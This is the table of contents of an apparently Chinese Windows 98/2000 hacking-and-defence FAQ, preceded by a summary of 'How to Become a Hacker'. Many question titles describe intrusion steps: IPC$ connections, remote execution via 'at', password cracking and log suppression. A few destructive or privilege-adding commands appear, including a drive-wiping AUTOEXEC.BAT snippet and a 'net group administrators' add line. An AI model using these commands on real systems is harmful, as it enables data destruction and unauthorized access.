# 黑客入侵防御基础

- Win98 部分
  - Win98 下常用命令
  - Win98 注册表
  - Win98 系统原理及安全性
  - Win98 入侵常见问题
- Win2k 部分
  - 常见名词解析
  - Win2k 常用命令集
  - Win2k 注册表部分
  - Win2k 的服务
  - Win2k 系统原理与网络基础知识
  - Win2k 安全及网络安全探讨
  - Win2k 入侵常见问题
  - Win2k 问题终结篇






# 如何成为一位 Hacker

这儿最近常见的一个问题是：如何成为一位 hacker？原文可见 `http://www.ccil.org/~esr/faqs/Hacker-howto.html`，也可以搜索《How to be a Hacker》获取更多信息。在这里，作者说明了 “hacker” 到底是什么，以及应该具备怎样的能力和方向。

## 怎么成为黑客？

首先，我们要分清 “hacker” 和 “cracker” 之间的重要区别。媒体经常把入侵者称作 cracker，而真正的 hacker 更强调技术、创造与分享。hacker 重视能力与实践，但其精神核心并不是破坏。

## Hacker 态度

Hacker 通过解决问题和创造新东西来建立声誉。他们相信理性、分享与协作。要成为 hacker，你需要反复证明自己具备这种态度：主动学习、持续实践、乐于贡献。仅有空谈和幻想，无法成为真正的 hacker。

## 一位 Hacker 所需的基本技能

- 1. **学习程序设计**：你应该会 C；如果只会一种语言还不够成熟，也称不上真正的 programmer。  
- 2. **掌握 UNIX**：学习使用并理解 UNIX/Linux 系统。  
- 3. **使用 World Wide Web**：学习并掌握 HTML 等基础能力。

## 下面这些事情，会让你更接近 Hacker

- 1. 运行并使用自由软件，理解并参与其文化。  
- 2. 帮忙测试和 debug 自由软件（是测试改进，而不是破坏）。  
- 3. 发布有用的信息。  
- 4. 帮助维护常见问题文档（FAQ）或其他公共资料。  
- 5. 参与 Hacker 文化的传播与建设（如 mailing list、newsgroup、RFC 讨论等）。

最后，成为 hacker 取决于你长期持续的行动与投入，而不是一时冲动。技术可以学习，但若失去热情和探索精神，就很难真正走下去。

作者：python

# 目录



## 第一章：Win98 常用命令

- 001 如何打开 MS-DOS 方式
- 001 如何 telnet 到对方的主机上
- 001 telnet 下的命令都有什么啊
- 002 我使用的是 Win98，telnet 的时候没有回显，如何打开回显
- 002 使用什么命令可以查看当前的网络连接状况
- 002 用什么命令才可以查看自己的 IP 地址
- 003 Win98 下好像有一个工具可以用来查看本机的网络配置状况，是什么
- 003 为什么我在用 NETSTAT 命令的时候屏幕总是一闪而过，怎么才能让它暂停几秒钟
- 003 如何获得某个 IP 的 MAC 地址（网卡地址）
- 004 有什么命令可以用来查看局域网内的所有机器
- 004 如何把一些 DOS 下操作的结果保存到 TXT 文件当中
- 004 在命令行下如何 FTP 到一台主机上
- 005 FTP 连接上主机之后，都有什么命令可以用呢
- 007 在命令行下，如何查看文件或是文件夹的属性
- 007 如何使用 attrib 命令修改文件的属性
- 008 如果 MS-DOS 下一屏幕不能全部显示的话，用什么命令可以让它分页显示
- 附录：008 未公开的命令和参数

## 第二章：Win98 注册表

- 011 如何打开注册表
- 011 为什么我在 Win9x 下安装 Win2000 显示“无法检测当前操作系统版本号”而退出了安装
- 011 所有的 exe 为后缀的文件都无法打开了，这是怎么回事啊
- 011 怎样改注册表才能使即使在 IE 地址栏输入驱动器名称也不能进入
- 011 如何防止 Win98 在启动的时候直接按 ESC 键或是取消就进入
- 012 能不能在右键菜单里加上“关闭计算机”这一项
- 012 如何屏蔽掉开始菜单里的“运行”
- 013 如何隐藏桌面上的所有文件
- 013 我的程序已经删除，但是在添加/删除程序中还是可以看到，怎么办
- 013 如何删除查找结果中的文件列表
- 013 如何在“我的电脑”中隐藏驱动器的图标
- 014 如何隐藏“控制面板”
- 014 如何能让别人不能修改我的桌面背景
- 014 如何防御 WinNuke 的攻击
- 014 经常有人恶作剧，给我的屏幕保护加上密码，我能不能禁止这个功能
- 014 我的 IE 的分级审核打开并加上了口令，怎么办
- 014 怎么样才能禁止掉“重新启动计算机并进入 MS-DOS 方式”这一项
- 015 如何修改我的鼠标右键菜单
- 附录：015 DOS 下编辑使用注册表
- 附录：016 注册表解锁五招
- 附录：017 Scanreg 命令的一些参数

## 第三章：Win98 系统原理及安全性

- 019 Win98 的蓝屏攻击是怎么回事
- 019 如何才能显示碎片对象的后缀名呢
- 019 我现在用的是 Win98，要想升级到 WinME 会不会出现驱动不兼容问题啊
- 019 如何在 Win98/ME 下关闭 NETBIOS 端口
- 020 在浏览一些网站后，我的电脑在启动栏中自动生成了一个 FOLDER.HTT.KBK，而且我的电脑资源下降得好快，还感染到了其他文件和程序。请问这是什么程序，用什么方法可以搞定
- 020 Win98 启动的时候，会提示缺少 command.com，然后就无法启动了
- 020 我的 Win98 经常蓝屏，怎么回事
- 022 我一不小心将“显示桌面”给删掉了，有办法恢复么
- 022 我中了“千年老妖”的妖之吻，怎么办啊
- 022 假如有一台机子装了硬盘还原卡，而且 MSDOS 里设置了禁止功能键。请问，如何才能进入纯 DOS 呀
- 022 什么是批处理文件
- 022 我的 Win98 在进入 DOS 后发现系统不能识别光盘的盘符，怎么办
- 附录：023 Win98 启动全揭密
- 附录：025 十大木马查杀方法

## 第四章：Win98 入侵常见问题

- 030 在 Win98 中我用流光时总是出现 DLL Loader Failed 是怎么回事
- 030 如何根据端口判断系统
- 030 使用命令 `nbtstat -a 192.168.0.56` 的时候出现了“Host not found.”
- 030 如何屏蔽路由信息，好多国外的网络屏蔽了路由信息，这是怎么实现的呢
- 030 如何像入侵 Win2k 一样给 Win98 定时启动某些程序
- 031 Win98 下怎么查看随机启动的程序都有哪些
- 032 开机的时候被设置的 BIOS 密码拦住了，有没有办法破解
- 032 对方设置了 BIOS 密码，但是可以进入 Windows，只是不能进入设置 BIOS 的界面，怎么破解呢
- 032 Win98 可否对 Win2k 使用 IPC 连接
- 033 有没有什么正规方法，让对方运行后就蓝屏呢
- 033 入侵 Win98 的时候，想进入对方的共享，但是加密了，怎么办
- 034 有一台 Win98 主机，有一个共享加密了，也打了补丁，没办法从网上破解，怎么做
- 035 Win98 中存储着 Win98 密码的文件是什么文件


## 第五章：常见名词解析

- 037 什么是路由器
- 037 什么是交换机
- 037 什么是网关
- 037 什么叫中继器
- 037 什么是噪音
- 037 什么是集线器
- 038 什么是网桥
- 038 什么是 LAN
- 038 什么是 WAN
- 038 什么是 VLAN
- 038 什么是 ATM
- 038 什么是 ACL
- 038 什么是 EFS
- 039 什么是 ACE
- 039 什么是 DACL
- 039 什么是 SACL
- 039 什么是 Domain
- 039 什么是 DC
- 039 什么是 PDC
- 039 什么是 BDC
- 039 什么是 AD
- 040 什么是 LDAP
- 040 什么是 KDC
- 040 什么是 Kerberos v5
- 040 什么是 CHAP
- 040 什么是 CA
- 041 什么是 DNS
- 041 什么是 A 资源记录
- 041 什么是 PTR 记录
- 041 什么是 SRV 记录
- 041 什么是 BIND
- 041 什么是 CGI
- 041 什么是 NAT
- 041 什么是 NTFS
- 042 什么是 CDFS
- 042 什么是 UTP
- 042 什么是 STP
- 042 什么是 FDDI
- 042 什么是 X.25
- 042 什么是 CSMA/CD
- 042 什么是 PVC
- 042 什么是 PSTN
- 043 什么是 ISDN
- 043 什么是 ADSL
- 043 什么是 VPN
- 043 什么是 MAC
- 043 什么是 HTTP
- 043 什么是 FTP
- 043 什么是 NNTP
- 043 什么是 3389 终端
- 043 什么是 TCP/IP
- 044 什么是 IPX/SPX
- 044 什么是 SMTP
- 044 什么是 ESMTP
- 044 什么是 POP3
- 044 什么是 TCP
- 044 什么是 IP 协议
- 044 什么是 AppleTalk
- 044 什么是 NWLINK
- 045 什么是 IrDA
- 045 什么是 SLIP
- 045 什么是 PPP
- 045 什么是 PPTP
- 045 什么是 L2TP
- 046 什么是 NetBEUI
- 046 什么是 IGMP 协议
- 046 什么是 ICMP 协议
- 046 什么是 ARP
- 046 什么是 SNMP 协议
- 046 什么是 DHCP
- 046 什么是 BOOTP
- 047 什么是 WINS
- 047 什么是 RAID
- 047 什么是 RAID-5
- 047 什么是 RPC
- 047 什么是 RFC
- 047 什么是 DirectX
- 048 什么是 ASCII
- 048 什么是半双工/全双工
- 048 什么是 IIS
- 048 什么是命名管道
- 048 什么是 PID
- 048 什么是 SID
- 048 什么是审核
- 048 什么是 MMC
- 049 什么是 IPv6
- 049 什么是虚拟服务器
- 049 什么是 ISP
- 049 什么是 ICP
- 049 什么是 Intranet
- 049 什么是隐藏共享
- 050 什么是 UNC 路径
- 050 什么是 XML
- 050 什么是脚本宿主
- 050 什么是 API
- 050 什么是 ODBC
- 050 什么是 OSPF
- 051 什么是故障恢复控制台
- 051 什么是批处理文件
- 051 什么是代理服务器
- 051 什么是肉鸡
- 051 什么叫做跳板
- 051 什么是弱口令
- 051 什么是 ActiveX
- 052 什么是 applets
- 052 什么是 MIME
- 052 什么是 PE 文件
- 052 什么是 VRML
- 052 什么是 WebDAV
- 052 什么是穿透
- 053 什么是 rootkit
- 053 什么是 IDS
- 053 什么是 NIDS
- 053 什么是 NNIDS
- 053 什么是 HIDS
- 053 什么是蜜罐
- 053 什么是 DoS 攻击
- 053 什么是 DDoS 攻击
- 053 什么是溢出攻击
- 054 什么是 Smurf 攻击
- 054 什么是 Trojans 攻击
- 054 什么是 Hijack 攻击
- 054 Win2k 三个常见版本的缩写

## 第六章：Win2k 常用命令

- 056 在 Win2k 里有个 cmd.exe，那是什么东西，和 Win98 的 MS-DOS 一样的吧
- 056 什么是内部命令和外部命令
- 056 我想知道，在 cmd 中的快捷键都有什么
- 057 如何才能建立一个 IPC$ 空连接
- 057 得到用户名和密码后，如何与对方系统建立连接
- 057 与对方建立了 IPC$ 连接后，对方会不会发现
- 057 请问如何在命令行中启动本机的 IPC 服务
- 058 能不能使用命令来开启或是停止服务
- 058 我不知道用 net start 和 net stop 命令能开启或是停止哪些服务，哪里可以查
- 058 建立 IPC$ 连接后，如何上传文件
- 058 上传文件后，怎么才能运行
- 058 我想要用 at 命令来指定任务，但不知道对方主机时间，怎么运行啊
- 059 我在使用 at 的时候，会提示我服务未启动，怎么回事
- 059 为什么我在使用 at 命令的时候会得到一个“拒绝访问”的返回信息呢
- 059 我上传文件 svr.exe 到对方的 winnt 文件夹下，然后用 at \\ip time svr.exe，可是却总不能成功运行，为什么
- 059 在命令行下，映射对方的磁盘到本地的命令是什么
- 059 我映射了对方的磁盘，那么，现在我用什么命令才能断开映射呢
- 060 有没有在命令行下可以杀死对方进程的工具
- 060 我能不能命令行模式下获得对方的 PID 呢，例如我是 telnet 到对方主机，我没有办法调出任务管理器
- 060 kill 和 list 结合确实不错，但是，怎么能给对方安装 support tools 呢，如果对方没装，再怎么厉害也用不了啊！
- 060 有什么命令可以查看某个文件夹所对应分给每个用户的权限
- 061 在管理工具中可以通过计算机管理查看当前与本机的会话的主机有哪些，在命令行下可以做到吗
- 061 在命令行下，如何中断会话呢
- 061 如何给另外一台主机发送信息呢
- 061 什么命令可以将 FAT32 的分区转换为 NTFS 格式分区
- 062 nslookup 干什么用的，听说可以获得 DNS，怎么用啊
- 062 有没有什么命令可以在运行某些命令的时候，使这个命令在其他窗口运行而不干扰当前的窗口
- 062 如何获得某个站点的 IP 地址
- 063 我知道了对方的主机名，怎么获得他的 IP 地址
- 063 我得到了对方的 IP 地址，我们在同一个局域网内，我可以获得他的主机名吗
- 065 如何使用命令来查看本机的 IP 地址、DNS 服务器
- 065 我 telnet 到我的内网上后，看到一些文件，想用 del 命令删除，却出现拒绝访问，怎么回事
- 065 我能远程列出主机的某个盘下的所有资源吗
- 065 我可以 telnet 连接到对方的主机上，我想获得一些系统信息，用什么命令才好
- 066 我使用 net 命令的时候经常遇到一些错误代码，怎么查看对应的错误信息啊
- 066 我利用 JQD 的溢出时捆绑命令 `net group administrators user_name /add`，但是系统回复该项功能只能在 Win2000 域服务器的控制台下使用，怎么回事啊
- 066 我 telnet 到远程主机后，想改变他的 IP，命令行下怎么做
- 067 跟踪路由器的命令是什么，它的作用是什么
- 067 听说 Win2k/XP 对一些常用的 DOS 命令做了些加强，能介绍一下吗
- 070 能介绍一些 SMTP 和 POP3 常用的命令吗
- 071 newletmein 这个命令是干什么的啊
- 071 用什么命令可以查看系统的版本号啊
- 071 如何使用 finger 命令
- 072 有什么命令可以远程执行一些 cmd 命令
- 072 netsh 这个命令是干什么的，怎么使用
- 073 用什么命令才可以限制用户的登录时间范围呢
- 073 请问，怎么样才能找到路由器
- 073 怎么样启动微软自带的 FTP 服务
- 074 对方的 FTP 修改了端口，我在 cmd 下用 ftp ip 无法连接，这是为什么
- 074 我是 telnet 登录到主机上的，应该用什么命令来获得主机的主机名
- 074 有什么命令可以重新启动计算机吗
- 074 附录：FTP 服务器的常见返回代码

## 第七章：Win2k 注册表部分

- 077 Win2k 下的注册表和 Win98 的有什么不一样吗
- 077 在 Windows 2000 下怎样查看随机计算机自动加载的程序
- 078 如何利用注册表修改 TTL 值
- 078 安装完 IE 6.0 后我想重装 IE 5.5，但是却不允许，报错提示现在所安装的版本比要安装的版本新，怎么办
- 079 Win2k 的文件夹选项——查看里没有“显示所有文件和文件夹”了，怎么搞的
- 079 我的 IE 被修改了，IE 标题栏中被写上了网站的地址，怎么办
- 081 Win2k 中如何去掉“文档”菜单
- 081 Win2k 中如何去掉“查找”菜单
- 081 Win2k 中如何去掉“注销”菜单
- 081 如何去掉“关闭系统”菜单
- 081 如何去掉“设置”菜单
- 081 如何自动清除“文档”菜单内容
- 081 如何删除桌面上的系统图标
- 082 如何去掉“网上邻居”图标
- 082 如何能禁止使用 Win2k 的任务管理器
- 082 有没有办法给回收站增加一个重命名的功能
- 082 有没有办法在右键菜单中增加“清空回收站”的选项
- 082 我的 WinRAR 已经删掉了，但是右键菜单中还是有 WinRAR 的选项，怎么删除啊
- 083 在开始按钮上点右键出现的那个菜单，可以禁止掉么
- 083 我能不能禁止在桌面上点鼠标右键
- 083 我能不能像在“开始-运行”中输入 cmd 那样来调用其他的程序呢
- 084 能不能隐藏我上次登录 Win2k 时候使用的用户名呢
- 084 Win2k 中有什么办法可以让 CD-ROM 不自动读盘吗
- 085 Win2k Server 登录的时候在按 Ctrl+Alt+Del 处的对话框能否修改
- 085 我用的是 Win2k，能不能手动对我的注册表优化一下
- 086 日志的存放位置可以修改吗
- 086 如何修改 Win2k 的注册表使 Win2k 变得更安全
- 087 如何使用注册表删除 Win2k 的用户或是组
- 088 我记得 Win2k 下通过修改注册表就可以修改 MAC 地址，是吗
- 088 怎么通过注册表查 Windows 打过的补丁
- 089 我的 IE 的地址列表太多了，可以清除吗
- 附录：
  - 089 组策略安全选项对应注册表项汇总
  - 093 修改注册表来加强 Win2k 的安全性
- 098 如何让 guest 级的用户不能访问日志
- 099 上网的时候连接一个以 https 开头的地址，报告错误，要我安装 SSL，那是什么
- 099 如何才能知道本机上的服务所对应的端口都是什么呢
- 099 我是在局域网内，总是有人用 net send 发消息给我，我不想收到这消息，怎么办
- 099 请问 Messenger 信使服务使用的那个端口
- 100 怎样才能禁止别人远程编辑我的注册表
- 100 在一个局域网内，有 80 台主机，主机均为 Win2k 的操作系统，当所有主机都开机后，浏览网上邻居的时候会非常慢，有时候等上十几分钟甚至都无法看到网上邻居有反应，有时候还会没有响应，why
- 101 IIS 这个服务是什么
- 101 如何才能让我的主机停止记录日志呢，就是说在日志查看器里不会有日志生成
- 102 我听说能通过禁止某个服务使 IPC$ 这类默认管理共享都失效，是不是真的
- 102 为什么我的终端服务无法正常启动
- 附录：
  - 102 关于 Win2k 的服务

## 第八章：Win2k 的服务

- 097 什么是服务默认端口
- 097 137 netbios-ns、138 netbios-dgm、139 netbios-ssn 这都是些什么东西啊
- 097 请问怎么在 XP Home 版中用类似 PWS 之类的 Web 服务器工具
- 098 445 Microsoft-DS 和 1025 network blackjack 在 Win2k 是用来提供什么服务的
- 098 我使用的是 Win2k 的系统，经常会收到系统的报警信息，还写着具体信息请查看日志什么的，那个日志该怎么看啊

## 第九章：Win2k 系统原理与网络知识集锦

- 104 可以针对 FAT、FAT32、NTFS 三种磁盘格式速度来进行一下比较吗
- 104 有没有什么办法可以在 DOS 下看到 NTFS 的分区
- 104 启动 XP 的时候，系统提示 DLL 文件丢失，怎么解决
- 105 原系统为 XP，现在安装第二个系统 Win2k，在安装完成 Win2k 后重启，为什么没有多重启动菜单可以选择进入 Win2k 或是 XP，而是直接进入了 Win2k
- 105 请问 Win2000 的注册表文件是哪几个
- 106 为什么我不能在 Windows XP 中安装 NetBEUI 协议啊，在安装协议中根本就没有 NetBEUI 协议这一项
- 106 我使用 `netstat -an` 命令来查看本机的开放端口，会看到后面有一项 stat，下面好多英文（图 9-4），那些都是什么意思啊
- 106 在 Win2k 或以上系统，安装一些软件时，会提示：1. 所有用户使用此软件；2. 只允许我使用此软件。请问这两个选项安装后是如何实现权限分配的，是不是在注册表
- 107 我用的是 2K Pro，请问如果我想装 IIS，不用 PWS，也不装 Server 版的，请问我到哪里去下载 IIS 呢
- 107 为何要区分 TCP 端口和 UDP 端口
- 107 什么是 TCP 的三次握手

- 108 OICQ 不是使用 UDP 协议么？但是，它是怎么通过路由器完成寻址的？
- 108 什么叫套接字？
- 108 什么叫做中断？
- 109 什么叫做进程？
- 109 什么是线程？
- 109 什么叫做溢出？
- 110 为什么我装的 WIN2000 高级服务器版在安装了英文版的 Windows Media Player 9.0 之后变成了测试版？
- 110 在网上邻居浏览整个网络的时候经常可以看到一些很有个性的名字的工作组，我也想加入他们，怎么加入啊？
- 111 防火墙断开网络是断开 OSI 模型中的哪一层？
- 111 路由器工作在哪层？
- 111 网桥工作在哪一层？
- 111 集线器工作在哪一层？
- 111 交换机工作在哪层？
- 111 什么叫做端口重定向？
- 111 我用 fpipe 重定向我的端口，我用：fpipe -l 80 -s 88 -r 80 xxx.xxx.xxx.xxx，这是什么意思？
- 112 老是见到 shell 这个名词，这个 shell 是什么？
- 113 到底什么才是空连接？
- 113 什么是 exploit？
- 113 我在机子上的一个程序，为什么在删除时显示正被 Windows 使用，无法删除，能解释一下吗？还有，我怎么才能删除它呀？
- 114 我的 C 盘在我装 WIN2000 时格成了 NTFS 格式，现在我想把它重新格式化装 WINXP，但在 DOS 下找不到我的那个 NTFS 格式的 C 盘，而且我的其它盘上还有重要的文件，我又不想重新分区，有没有什么方法？
- 114 怎么才能实现共享上网？
- 115 为什么我装了防火墙后就不能 QQ 了？
- 115 我现在是通过局域网上网的，速度很快，但是流量有限制，我怎样能够让我的流量没有限制呢？
- 116 什么是 Cookie？
- 116 如何清除掉 IE 的 Cookie？
- 117 怎么样才能使 IE 不使用 Cookie？
- 118 我装了 IE 6.0 以后，当输入 sohu 后再按 Ctrl+Enter，出现的不是 www.sohu.com 而是 www.sohu.co.cn，这是怎么回事啊？
- 118 IE 6.0 除了按 Ctrl+Enter 的那个 bug 以外，好像还有一个吧，是什么呢？
- 119 什么是交互式登录？
- 119 什么是安全标识符（SID）？
- 120 win2k+NTFS 通过什么来识别用户并做到对某些文件访问的禁止与允许？
- 120 能描述一下在 win2k 域中的用户登录过程么？
- 120 win2k 本地机用户登录后的令牌中都有什么？
- 121 防火墙是通过什么来屏蔽、统计和防入侵的？
- 121 ACL 和 ACE 之间有关系么？有的话，是什么关系？
- 122 SNMP 是什么？介绍一下相关的知识吧。
- 122 谁可以讲一下 win2k 的任务管理器的进程中那些东西都是什么啊？
- 124 扫描工具是根据什么来检测到开放端口和漏洞的？
- 124 我在网上邻居上共享应用程序，在别人机器上点击它，那么是在我机器上运行还是在他机器上运行了这个程序？
- 124 sniffer 的原理是什么，它为什么能监听到网络上的其他数据？
- 124 请问如何才能把自己的网卡设置为混杂模式呢？
- 124 我的 win2k 的日志查看器里记录了很多错误，但是都是以 ID 号的形式记录的，看不懂啊，怎么办？
- 125 我的 win2k 总是提示缺少文件、报错，怎么办啊？我不想重装。
- 125 我同学的主机为 Windows XP，我的为 win2k pro，建立 IPC$ 连接总是失败，怎么回事？
- 125 我使用的是 Windows 2000 Advanced Server，我停止了计划任务，重新启用后怎样让它显示在屏幕右下角的任务栏中？
- 126 我的 OS 是 WIN2000，由 WIN98 升级的，我在装 NETXRAY 和 BLACKICE 时，系统出现“SETUP DETECTS NETXRAY already installed, please deinstall it from control panel first and run setup again!”
- 126 能不能把 Win2k 里的 CMD.exe 改名？
- 126 我的操作系统是 win2k+NTFS，因为中毒的原因，我重装了系统，但是当安装完新的 win2k 之后才发现，我原来在磁盘中加密的文件已经打不开了，怎么办啊？
- 127 DNS 解析一个地址的过程是什么样的？
- 127 DNS 查询过程使用的是什么协议？
- 128 我申请了一个域名，而且我有固定 IP，那么我做什么设置才能让人家在地址栏里输入域名（如 http://www.abc.com）就能访问到我的 Web 服务器呢？
- 128 双绞线如何制作？
- 128 我原来安装的是双系统 win98+win2k，现在格掉了 98，只剩 2k 了，可是每次启动的时候还是有选择 win2k 和 win98 的启动菜单，怎么解决？
- 129 win2k 启动的时候按下 F8 的启动菜单中那些东西都是干什么用的，讲一下好吗？
- 130 win2k 的 tracert 命令的工作原理是什么？
- 130 一个网络中，有 win2k 和 win98 的主机，win2k 共享，但是 win98 不能访问。
- 131 我装的是 98 和 2K 的双系统（在同个盘中），每次上网连接前一定要重启一下，否则就连接不上，这是为什么啊？
- 131 在装 win2000 时，发现很慢很慢！我是从 DOS 上装的，难道没办法解决吗？
- 131 我的 win2k 总是提示虚拟内存不足，怎么解决？
- 132 如何给自己的网卡绑定多个 IP？绑定多个 IP 地址的作用是什么？
- 132 如何才能自动登录 win2k，就是不需要输入用户名和密码？
- 132 我用的是 2000 专业版，我想安装终端服务，服务器版里有，不知道是哪个文件；还有要是远程给对方主机安装终端服务怎么安装，谢谢。
- 132 我得到了一个帐号（不是管理员），为什么不能使用终端登录？
- 133 我看到一些站点在 Web 页面上就可以登录 3389 终端服务，那是怎么做的？
- 134 有没有像 Terminal Service 一样的窗口界面的远程连接工具？
- 134 为何一个子网掩码的第三字节（即第 17 到 24 位）必须是 128、192、224、240、248、252、254？
- 134 正常启动计算机，怎么才可以不加载任何程序？
- 134 ping 的时候 unable to resolve target system name www.xxx.com.cn，怎么回事呢？
- 135 我 ping 一台主机，结果出现：Reply from x.x.x.x: TTL expired in transit. 为什么？
- 135 建立 IPC 连接失败，返回一个错误代码为 2138，我该怎么做？
- 135 我机器上在 system32 下有一个 perfnet 文件，不知道是做什么的，它产生的进程占 CPU 利用率很高。
- 136 我下载了 xscan，然后在运行里输入了 r 命令，但是系统说没找到 scan，什么问题啊？
- 136 请问，逻辑拓扑结构图是什么？
- 136 win2k 开机的时候 Num Lock 灯总是关着的，我修改了 BIOS 也不行，怎么办？
- 137 win2k 的系统每次开机都要检测软驱，有没有办法不让它检测啊？
- 137 telnet 和 ftp 都是在 cmd 下执行，为什么在 telnet 或 ftp 到对方后用的命令不一样？
- 137 为何在局域网中，打开 win2k 的时候，WIN98 就打不开网上邻居啊？
- 138 在 winxp 中，怎么不能用 nbtstat -A ip（对方是 win2k，我的是 XP）？
- 138 常见的代理有哪几种？有什么区别？
- 138 发生 IP 冲突的话，哪台机器可以上网？
- 138 Temporary Internet Files 文件夹中都是干什么用的？
- 139 在 IPv6 的环境下，当主机 A 移出了本地网络，然后主机 B 向原来的主机 A 的 IP 发送数据，首先主机 B 要发送类似 ARP 的报文，要求获得主机 A 的 MAC 地址。这时，主机 C 承担了转发的任务，它向主机 B 发送类似 ARP 的回复报文，告诉主机 B 主机 A 的“MAC 地址”（实际上是它自己的 MAC 地址）。我的问题是：主机 C 在回复报文中，是不是要把 IPv6 报文中的源地址设置为主机 A 的地址，才能够使得主机 B 相信这是一个正确的 ARP 报文？
- 140 在上网的时候用域名，例如 www.sohu.com 上不去，一定要用 IP 地址才可以上，why？
- 141 回收站无法使用，打开后显示“无法连接到您所请求的页”，查其属性为未知，请问咋办？
- 141 我的 rar 文件的图标全都变成 Windows 的图标了，而且打开的时候还需要选择打开方式，怎么改回来？
- 141 端口是什么？
- 141 有一台网吧主机配置成了 ftp 主机，为什么我扫描这个网吧的时候，没有发现它开了 21 端口，为什么呢？
- 142 什么是 FTP 匿名登录啊？
- 142 我登录 WIN XP 时不知道为什么还没有加载个人信息它就自动重新注销，why？
- 142 广域网上可否使用 net send？
- 143 为什么我的 win2k 在关机菜单中没有“休眠”这一项？
- 143 请问怎么关 win2k 的 https 功能？
- 143 我想学习一下恶意代码是怎么编写的（不是想害人啦），所以我要浏览一些有恶意代码的站点，我该怎么做才能不被黑到？
- 144 请问如何在 win2000 下运行 perl 程序？
- 144 如何将 perl 编写的 *.pl 文件编译成为 *.exe 文件？
- 144 有没有办法将 perl2exe 编译出的 exe 文件反编译成 pl 文件？
- 145 如何破解 lmhosts.sam 文件？请指教！
- 145 介绍一下 FTP 的两种工作模式吧。
- 146 IPX 可以经过路由器吗？
- 146 现在我的域控制器是 NT 主机，客户机是 98，我全面升级到 win2k，过程是什么样的？
- 146 交换机可以阻止广播风暴，不是只有路由器才可以吗？
- 146 我的 win2k svr 怎么找不到 POP3 服务器的设置？
- 146 经常听说 ISAPI 扩展，可是这到底是什么啊？
- 147 在一些讲路由器的书中经常会看到“下一跳”这个概念，这是什么？
- 147 我登录我的信箱退出后，我的朋友也来看他的信箱（两个信箱是同一个网站的），但是当输入完用户名和密码之后进入的居然是我的信箱，这是为什么？
- 147 建立 IPC$ 连接的时候用的是什么端口？
- 147 俺装了瑞星防火墙，但是想卸载的时候却蓝屏了。怎么办啊？
- 148 什么叫做 MAC 广播域？
- 148 如何改变 telnet 服务器的欢迎语？
- 148 win2k 的恢复控制台的命令都有哪些？
- 148 在 WIN2000 下 AUTOEXEC.BAT 里写上：
  - format d: /q /autotest
  - del d:
  - format c: /q /autotest
  - del c:
- 148 重启以后为什么不格式化硬盘？在 98 下好使，但在 2000 下为什么不行？
- 149 我的机子（win2000 server）被别人装了 winshell，我发现了，把程序删掉后，结果重启机子就有个提示框出现：由于有个服务或驱动程序没有正常启动，详细信息请看事件服务。
- 149 想问一下，一个域名在地址栏一打入，回车就能访问到，它的原理是什么呀？
- 149 我中了病毒，后来用杀毒软件杀了，但是我的 EXE 和 TXT 文件全都打不开。
- 149 今天我看见了一个同学竟然在不建立 IPC 的情况下，直接访问对方的共享，为什么？
